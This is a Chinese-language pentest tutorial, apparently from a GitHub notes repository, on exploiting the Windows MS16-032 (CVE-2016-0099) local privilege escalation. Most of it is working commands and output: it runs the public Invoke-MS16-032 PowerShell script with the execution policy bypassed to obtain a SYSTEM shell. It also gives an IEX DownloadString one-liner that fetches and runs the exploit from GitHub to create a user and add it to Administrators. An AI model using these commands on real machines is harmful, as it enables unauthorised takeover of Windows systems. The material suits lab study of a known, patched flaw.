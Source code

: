 # （CVE-2016-0099）【MS16-32】 windows 本地提权漏洞

# 介绍

漏洞类型：特权提升

Microsoft 安全公告：https://docs.microsoft.com/zh-cn/security-updates/securitybulletins/2016/ms16-032

exploit-db的详情：https://www.exploit-db.com/exploits/39574/

利用时需要满足的要求

> ①系统需要拥有至少2个的CPU核心
>
> ②Power shell v2.0以及更高的版本

影响的Windwos版本

> Windows Vista、Windows 7、Windows 2008 Server、Windows 2012 Server、Windows 8.1、Windows 10

## 漏洞利用

> 脚本地址：[1_Invoke-MS16-032.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1)



测试一：普通用户登录下，获取管理员cmd创建文件的方法有多种，这里演示两种：

①创建文件`1_Invoke-MS16-032.ps1`并写入内容；

```
E:\MS16-032>type nul > 1_Invoke-MS16-032.ps1

E:\MS16-032>notepad 1_Invoke-MS16-032.ps1    #写入内容
```

文件下载好之后，先展示一下当前用户，以及属组

```
E:\MS16-032>whoami
win...\test

E:\MS16-032>net user  test
用户名                 test
...
可允许的登录小时数     All

本地组成员             *Users
全局组成员             *None
命令成功完成。
```

无权的一个用户，现在开始执行脚本

```
E:\MS16-032>powershell -exec bypass
Windows PowerShell
版权所有 (C) 2009 Microsoft Corporation。保留所有权利。

PS E:\MS16-032> . .\1_Invoke-MS16-032.ps1

PS E:\MS16-032> Invoke-MS16-032
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PS E:\MS16-032> 
```





![image-20201103195057316](.resource/%EF%BC%88CVE-2016-0099%EF%BC%89%E3%80%90MS16-32%E3%80%91%20windows%20%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/image-20201103195057316.png)

前面的步骤时进入powershell在执行命令，但其实可以加一个`-c`参数，后面可以直接接命令，分号分隔开，然后就会自动执行，不用进入powershell。

```
E:\MS16-032>powershell -exec bypass -c ". .\1_Invoke-MS16-032.ps1;Invoke-MS16-032"
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

E:\MS16-032>
```

脚本地址：[2_Invoke-MS16-032.ps1](https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1)



测试二：普通用户登录下，创建其他用户，并加入`administrators`组Ps：相对于测试一的脚本，该脚本进行了简单改变，可以执行任意程序，并可以添加参数执行（全程无弹框）。`-Application`参数可以执行任意程序

```
E:\MS16-032>whoami
win...\test

E:\MS16-032>net user test_test /add
发生系统错误 5。

拒绝访问。
```

```
E:\MS16-032>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user test_test test_test /add'"
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handles..
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

E:\MS16-032>net user
---------------------------------------------------------------------
Administrator            Guest                    HSW
test                     test_test
命令成功完成。


E:\MS16-032>net user test_test
用户名                 test_test
...
本地组成员             *Users
全局组成员             *None
命令成功完成。
```

可以看到`test_test`用户添加完成，但是只属于`Users组`，现在将其加入`Administrators组`，先查看一下组和权限

```
E:\MS16-032>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup Administrators test_test /add'"
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handles..
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

E:\MS16-032>net localgroup Administrators
别名     Administrators
注释     管理员对计算机/域有不受限制的完全访问权

成员

---------------------------------------------
Administrator
test_test
命令成功完成。


E:\MS16-032>net user test_test
用户名                 test_test
...
本地组成员             *Administrators       *Users
全局组成员             *None
命令成功完成。
```

